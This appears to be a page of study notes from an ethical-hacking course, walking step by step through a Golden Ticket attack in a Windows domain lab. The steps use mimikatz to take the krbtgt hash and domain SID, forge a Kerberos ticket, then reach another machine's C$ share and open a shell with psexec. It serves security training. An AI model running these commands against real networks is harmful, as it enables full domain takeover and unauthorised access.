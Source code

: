 # III. Golden Ticket Attacks

Login to Windows Server machine as Administrator. Move mimikatz to the Downloads folder.

Open the Command line, move to the location we saved mimikatz , and run it.

![gold1](https://github.com/w1zzl3-06/TCM-Practical-Ethical-Hacking-Notes/assets/141921425/a50abe09-2710-475c-b86d-6805ee5bde2e)

Copy the SID of the domain:

![gold2](https://github.com/w1zzl3-06/TCM-Practical-Ethical-Hacking-Notes/assets/141921425/042fdb07-0c0f-44c1-b9d1-b4dc66bfb869)

And the NTLM hash of the krbtgt account:

![gold3](https://github.com/w1zzl3-06/TCM-Practical-Ethical-Hacking-Notes/assets/141921425/ca3a8290-cd92-41c6-9325-ca444f4f0da0)

Paste them into a notepad. These will allow us to generate our golden ticket.

Next we type in the following command to generate the golden ticket:

`kerberos::golden /User:Administrator /domain:<DOMAIN> /sid:<SID> /krbtgt:<HASH> /id:500 /ptt`

NOTE: The Administrator account has an RID (Relative Identifier) of 500 and `ptt` stands for pass the ticket. This allow use to pass the ticket to the next session to open a command prompt to access any computer we want.

![gold4](https://github.com/w1zzl3-06/TCM-Practical-Ethical-Hacking-Notes/assets/141921425/a9ad07de-d77d-447c-9d2f-df63e9378ad3)

Done!

Next, start a new command prompt with `misc::cmd`. Type in `dir \\UserMachine\c$`(If it doesn’t work, try using the IP address instead).

We’ve accessed the directory of the `FRANKY` machine.

![gold5](https://github.com/w1zzl3-06/TCM-Practical-Ethical-Hacking-Notes/assets/141921425/ea84a086-e59f-483b-9f82-818d544d0473)


We can take this a step further by using `psexec` and using it against the user machine to get a shell. 

E.g. `psexec.exe \\UserMachine cmd.exe`

![gold6](https://github.com/w1zzl3-06/TCM-Practical-Ethical-Hacking-Notes/assets/141921425/23887805-d4f2-4190-a71f-f5a9caa16530)
